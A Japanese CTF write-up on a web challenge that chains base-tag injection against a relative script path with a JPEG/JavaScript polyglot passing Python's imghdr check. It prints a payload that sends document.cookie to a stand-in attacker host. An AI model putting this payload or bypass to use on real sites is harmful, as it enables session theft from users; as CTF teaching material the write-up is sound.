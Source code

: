 travelogと差分を取るとbotのフラグの格納の仕方だけ変わっていました。
リダイレクト戦法が封印されたので、ちゃんとソースコードを読みます。

`show_utils.js`を読み込む場所はこのように記述されています:
```html
<script nonce="{{ csp_nonce }}" src="../../show_utils.js"></script>
```

パスが相対パスなのでここで悪さができそうです。
都合よく`"base-uri 'self'"`が設定されているので相対パスの起点をいじり放題です。

例えば
```
<base href="http://challenge:8080/uploads/ac5b14adfb22f76b3c500747b5a17a0a/x/x/">
```
とすると、`http://challenge:8080/uploads/ac5b14adfb22f76b3c500747b5a17a0a/show_utils.js`を読み込むようになります。

というわけで`show_utils.js`のファイル名のJavaScriptファイルがこの場所に置かれるように配置したいです。ただし、ファイルの投稿はjpegしか許容されていません。

```python title="app.py"
@app.route('/upload', methods=['POST'])
def upload():
    if 'user_id' not in session:
        abort(404)

    images = request.files.getlist('images[]')
    for f in images:
        with tempfile.NamedTemporaryFile() as t:
            f.save(t.name)
            f.seek(0)
            if imghdr.what(t.name) != 'jpeg':
                abort(400)

    for f in images:
        name = os.path.basename(f.filename)
        if name == '':
            abort(400)
        else:
            f.save(PATH_IMAGE.format(user_id=session['user_id'], name=name))

    return 'OK'
```

つまり、jpegとjsのpolyglotです。
imghdrがどうやってjpegを判定しているのか調査したら
```python
# ref. https://github.com/python/cpython/blob/3.10/Lib/imghdr.py#L37
def test_jpeg(h, f):
    """JPEG data in JFIF or Exif format"""
    if h[6:10] in (b'JFIF', b'Exif'):
        return 'jpeg'
```
とありました。雑すぎて笑いました。

よって次のようなソースコードを`show_utils.js`という名前で投稿すればよいです:
```javascript
//    JFIF
const url = "https://evil.example.com";
setTimeout(() => {
  location = url + "?" + document.cookie;
}, 1000);
```


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md